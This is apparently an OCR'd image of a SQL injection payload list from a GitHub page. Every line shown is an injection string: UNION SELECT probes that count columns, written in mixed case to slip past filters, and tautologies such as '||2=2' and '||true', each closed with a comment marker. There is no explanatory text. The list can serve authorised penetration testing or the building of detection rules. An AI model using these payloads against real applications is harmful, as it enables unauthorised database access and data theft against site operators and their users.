                 ') UniON SElecT 1,2,3,4#
                ') UniON SElecT 1,2,3,4,5#
                ')UniON(SElecT(1),2)-- 2
                ')UniON(SElecT(1),2,3)-- 2
                ')UniON(SElecT(1),2,3,4)-- 2
                ')UniON(SElecT(1),2,3,4,5)-- 2
                ')UniON(SElecT(1),2)#
                ')UniON(SElecT(1),2,3)#
                ')UniON(SElecT(1),2,3,4)#
                ')UniON(SElecT(1),2,3,4,5)#
                ") UniON SElecT 1,2-- 2
                ") UniON SElecT 1,2,3-- 2
                ") UniON SElecT 1,2,3,4-- 2
                ") UniON SElecT 1,2,3,4,5-- 2
                ") UniON SElecT 1,2#
                ") UniON SElecT 1,2,3#
                ") UniON SElecT 1,2,3,4#
                ") UniON SElecT 1,2,3,4,5#
                ")UniON(SElecT(1),2)-- 2
                ")UniON(SElecT(1),2,3)-- 2
                ")UniON(SElecT(1),2,3,4)-- 2
                ")UniON(SElecT(1),2,3,4,5)-- 2
                ")UniON(SElecT(1),2)#
                ")UniON(SElecT(1),2,3)#
                ")UniON(SElecT(1),2,3,4)#
                ")UniON(SElecT(1),2,3,4,5)#
                ')||('2
                ')||2-- 2
                ')||'2'||('
                ')||2#
                ')||2/*
                ')||2||('
                ")||("2
                ")||2-- 2
                ")||"2"||("
                ")||2#
                ")||2/*
                ")||2||("
                ')||'2'=('2
                ')||'2'='2'||('
                ')||2=2-- 2
                ')||2=2#
                ')||2=2/*
                ')||2=2||('
                ")||"2"=("2
                ")||"2"="2"||("
                ")||2=2-- 2
                ")||2=2#
                ")||2=2/*
                ")||2=2||("
                ')||2=(2)LimIT(1)-- 2
                ')||2=(2)LimIT(1)#
                ')||2=(2)LimIT(1)/*
                ")||2=(2)LimIT(1)-- 2
                ")||2=(2)LimIT(1)#
                ")||2=(2)LimIT(1)/*
                ')||true-- 2
                ')||true#
                ')||true/*
                ')||true||('
                ")||true-- 2
                ")||true#
                ")||true/*
                ")||true||("